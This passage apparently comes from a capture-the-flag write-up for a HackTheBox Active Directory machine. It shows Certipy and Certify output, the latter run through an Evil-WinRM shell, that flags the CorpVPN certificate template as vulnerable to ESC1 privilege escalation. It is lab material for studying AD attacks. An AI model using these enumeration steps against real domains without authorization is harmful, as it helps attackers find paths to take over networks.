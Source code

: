 ```bash
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 20 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : AUTHORITY.HTB\Domain Computers
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : AUTHORITY.HTB\Administrator
        Write Owner Principals          : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
                                          AUTHORITY.HTB\Administrator
        Write Dacl Principals           : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
                                          AUTHORITY.HTB\Administrator
        Write Property Principals       : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
                                          AUTHORITY.HTB\Administrator
    [!] Vulnerabilities
      ESC1                              : 'AUTHORITY.HTB\\Domain Computers' can enroll, enrollee supplies subject and template allows client authentication
```

There's also a python based tool, [certipy](https://github.com/ly4k/Certipy) which can be used to enumerate AD CS remotely.

According to Certipy's output:

- The Enterprise CA is named `AUTHORITY-CA`.
- The DNS Hostname is `authority.authority.htb`.
- The `Certificate Name` Flag is configured as `EnrolleeSuppliesSubject`.
- `Extended Key Usage` contains Client Authentication, which means the generated certificate can be used to authenticate to computers in the AD.
- Manager approval is not required before issuing the cert.
- `Authorized Signatures Required` is set to zero.

As a result, the `CorpVPN` template appears to be vulnerable to `ESC1`.

The same info can be obtained using [Certify](https://github.com/GhostPack/Certify)'s [pre-compiled](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries) binary.

```cmd
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> .\Certify.exe find /vulnerable
...snip...
[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=authority,DC=htb'

[*] Listing info about the Enterprise CA 'AUTHORITY-CA'

    Enterprise CA Name            : AUTHORITY-CA
    DNS Hostname                  : authority.authority.htb
    FullName                      : authority.authority.htb\AUTHORITY-CA
    Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
...snip...
[!] Vulnerable Certificates Templates :

    CA Name                               : authority.authority.htb\AUTHORITY-CA
    Template Name                         : CorpVPN
    Schema Version                        : 2
    Validity Period                       : 20 years
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag           : ENROLLEE_SUPPLIES_SUBJECT
```